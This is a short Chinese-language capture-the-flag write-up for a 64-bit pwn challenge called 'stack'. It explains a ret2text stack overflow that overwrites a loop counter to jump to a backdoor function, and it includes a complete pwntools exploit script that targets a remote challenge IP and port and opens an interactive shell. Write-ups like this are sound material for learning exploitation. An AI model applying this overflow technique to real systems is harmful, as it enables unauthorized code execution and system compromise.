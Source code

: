 # stack

## 文件分析

NX on, PIE off, Canary off, RELRO off  
ghidra分析为64位程序

## 逆向

最简单的ret2text，程序中存在后门函数，栈溢出空间自定，
只要注意xmm寄存器要求的栈平衡

还有一点是这道题中迭代器`i`在buf之上，在覆写时会覆盖到，
可以借机将其覆写为0x27，跳至栈上返回地址处

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./stack')
    else:
        sh = remote('43.249.195.138', 21935)
    if lo & 0b10:
        gdb.attach(sh)
    sh.sendline(b'1600') # read size
    retAddr = 0x4012e5
    backdoor = 0x4012e6

    # payload, when reading '\x27' modifies the counter, skip to retAddr
    sh.sendline(b'0'*28 + b'\x27' + p64(retAddr) + p64(backdoor)) # add a ret to keep rsp balance
    sh.interactive()

payload(0)
```

Done.
